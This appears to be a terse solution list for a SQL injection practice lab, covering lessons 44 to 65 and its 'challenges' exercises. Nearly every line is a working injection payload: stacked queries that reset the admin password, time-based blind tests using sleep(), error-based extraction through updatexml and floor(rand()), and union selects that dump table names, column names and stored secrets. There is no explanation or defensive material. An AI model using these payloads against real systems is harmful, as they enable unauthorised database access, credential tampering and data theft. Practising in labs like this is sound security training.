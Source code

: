 44. Stacked Query blind : login_user=admin&login_password=c'; update users set password='333' where username='admin' #
	1st. try login_user=admin&login_password=c" or if(1=1,!sleep(5),0) limit 0,1 #&mysubmit=Login // no sleep
	2nd. try login_user=admin&login_password=c' or if(1=1,!sleep(5),0) limit 0,1 #&mysubmit=Login // sleep and login as Dumb
45. Stacked Query Blind based twist :  username:admin password:c'); update users set password='222' where username='admin' #
46. ORDER BY-Error-Numeric : ?sort=(select updatexml(1, concat("::", (select user()), "::"), 1)) --+
47. ORDER BY Clause-Error-Single : ?sort=1' and (select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2))) --+
48. ORDER BY Clause Clause based : ?sort=1 and database() regexp '^[a-z]'--+
49. ORDER BY Clause Blind based : ?sort=1' and if(database() regexp '^se[a-z]', !sleep(2), 0)  --+
	1st. try ?id=1  and if(1=1, !sleep(5), 0) --+  // no sleep
	2nd. try ?id=1' and if(1=1, !sleep(5), 0) --+  // sleep
50. ORDER BY Clause Blind based : ?sort=1; update users set password='50' where username='admin' --+
51. ORDER BY Clause Blind based : ?sort=1'; update users set password='51' where username='admin' --+
52. ORDER BY Clause Blind based : ?sort=1; update users set password='52' where username='admin' --+
	1st. try ?id=1' and if(1=1, !sleep(5), 0) --+  // no sleep
	2nd. try ?id=1  and if(1=1, !sleep(5), 0) --+  // sleep
53. ORDER BY Clause Blind based : ?sort=1; update users set password='53' where username='admin' --+
54. Challenge-1 :
	(1) Guess format
		1st. try ?id=1 and if(1=1, !sleep(5), 0) --+  // no sleep
		2nd. try ?id=1' and if(1=1, !sleep(5), 0) --+  // sleep
		3rd. try ?id=-1' union select 1,2 --+ // error
		4th. try ?id=-1' union select 1,2,3 --+ // ok
	(2) Get answer
		1. id=-1' union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
		2. id=-1' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='TN' --+
		3. id=-1' union select 1, group_concat(sessid), group_concat(secret_Q48) from TN --+
55. Challenge-2 : id=1) --+
56. Challenge-3 : id=1') --+
57. Challenge-4 : id=1" --+
58. Challenge-5 : ?id=1' union select 1,2,updatexml(1, concat("::", (select group_concat(table_name) from information_schema.tables where table_schema='challenges'), "::"),1 )  --+	
59. Challenge-6 : ?id=1  union select 1,2,updatexml(1, concat("::", (select group_concat(table_name) from information_schema.tables where table_schema='challenges'), "::"),1 )  --+	
60. Challenge-7 : ?id=1") union select 1,2,updatexml(1, concat("::", (select group_concat(table_name) from information_schema.tables where table_schema='challenges'), "::"),1 )  --+	
61. Challenge-8 : ?id=1')) union select 1,2,updatexml(1, concat("::", (select group_concat(table_name) from information_schema.tables where table_schema='challenges'), "::"),1 )  --+	
62. Challenge-9 : ?id=1') and if((select group_concat(table_name) from information_schema.tables where table_schema='challenges') regexp '^ro', !sleep(1), 0) --+
63. Challenge-10 : ?id=1' and if((select group_concat(table_name) from information_schema.tables where table_schema='challenges') regexp '^ro', !sleep(1), 0) --+
64. Challenge-11 : ?id=1)) and if((select group_concat(table_name) from information_schema.tables where table_schema='challenges') regexp '^ro', !sleep(1), 0) --+
65. Challenge-12 : ?id=1") and if((select group_concat(table_name) from information_schema.tables where table_schema='challenges') regexp '^ro', !sleep(1), 0) --+
